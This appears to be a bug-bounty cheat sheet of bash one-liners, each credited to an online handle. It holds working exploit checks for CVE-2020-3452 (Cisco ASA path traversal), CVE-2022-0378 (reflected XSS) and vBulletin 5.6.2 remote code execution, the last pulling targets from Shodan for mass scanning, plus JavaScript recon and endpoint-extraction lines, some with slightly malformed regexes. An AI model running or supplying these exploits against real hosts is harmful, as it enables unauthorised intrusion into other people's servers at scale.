 ### **CVE-2020-3452**

> @vict0ni
> 

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt

```

### **CVE-2022-0378**

> @7h3h4ckv157
> 

```bash
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done

```

### **vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution**

> @Madrobot_
> 

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;

```

### **Find JavaScript Files**

> @D0cK3rG33k
> 

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done

```

### **Extract Endpoints from JavaScript**

> @renniepak
> 

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

```
